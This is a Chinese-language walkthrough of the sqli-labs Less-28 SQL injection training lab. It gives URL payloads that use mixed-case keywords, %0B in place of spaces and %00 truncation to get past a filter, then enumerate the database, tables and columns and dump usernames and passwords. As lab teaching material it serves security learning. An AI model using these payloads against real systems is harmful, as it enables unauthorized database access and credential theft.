

# Less - 28

---

# 通关教程

---

## 1、判断闭合

---

查看源码，发现存在过滤

​​

这里发现基本与27关一样，依然采用大小写混合绕过

​​

---

## 2、查看当前数据库

---

```http
http://192.168.225.132/sqli-labs/Less-28/?id=111')%0BUniON%0BsElect%0B1,2,database();%00
```

​​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-28/?id=111')%0BUniON%0BsElect%0B1,2,(select (group_concat(table_name)) from (information_schema.tables) where (table_schema='security'));%00
```

​​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-28/?id=111')%0BUniON%0BsElect%0B1,2,(select (group_concat(column_name)) from (information_schema.columns) where (table_name='users'));%00
```

​​

---

## 5、查看username,password字段的值

---

```http
http://192.168.225.132/sqli-labs/Less-28/?id=111')%0BUniON%0BsElect%0B1,2,(select (group_concat(username,password)) from (security.users));%00
```

​​

‍
